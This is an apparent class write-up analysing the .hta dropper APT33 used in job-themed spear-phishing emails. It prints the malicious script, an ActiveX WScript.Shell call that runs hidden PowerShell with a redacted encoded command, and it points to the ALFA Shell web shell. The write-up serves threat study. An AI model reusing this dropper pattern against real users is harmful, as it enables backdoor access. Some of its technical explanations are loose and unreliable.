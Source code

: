 # ALFASHELL

## The spear phishing code used by APT33: Overview
> Code sampled from https://www.fireeye.com/blog/threat-research/2017/09/apt33-insights-into-iranian-cyber-espionage.html

This code was used to target employees in the aerospace and energy sectors. The emails posed as realistic looking job opportunities that
actually contained links to HTML application files (.hta). The .hta files had links to real job postings, but also contained code that would
a backdoor.

The code is publicly avaiable (a built in spear phishing module) in ALFA TEaM Shell (ALFASHELL) a web shell authored by GitHub user
**solevisible** (https://github.com/solevisible/ALFA-SHELL-V3)

## Analysis of .hta file

```
<title>Supply Specialist, Riyadh, Alsalam Company</title>
```
A legitimate aerospace company: http://www.alsalam.aero/
The company's legitimacy may have been the first step in getting the targets to begin navigating the webpage.
The links withing the .hta did also contain links to real job postings, further obscuring its real intention.

### The real threat

```
<script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir%\\System32\\cmd.exe /c powershell -window hidden -enc <redacted encoded command>', 0);
</script>
```

On the first line, a new object can be seen being made, which will allow the attacker to utilize a shell.
```
a=new ActiveXObject("WScript.Shell");
```

After the object is created/initialized, it envokes a 'run' command
```
a.run(
```

With a very obvious goal: the code creates a backdoor that allows for remote powershell use (similar to the 'tini' backdoor as shown in class)

The code first uses 
```
'%windir%\\System32
```
Which is the Windows directory or SYSROOT (https://superuser.com/questions/855615/what-is-windir) that would allow the malware
to execute the next bit of code once they had navigated to the correct path/directory:
```
\\cmd.exe
```
And thus a command window is open, allowing for the execution of any command
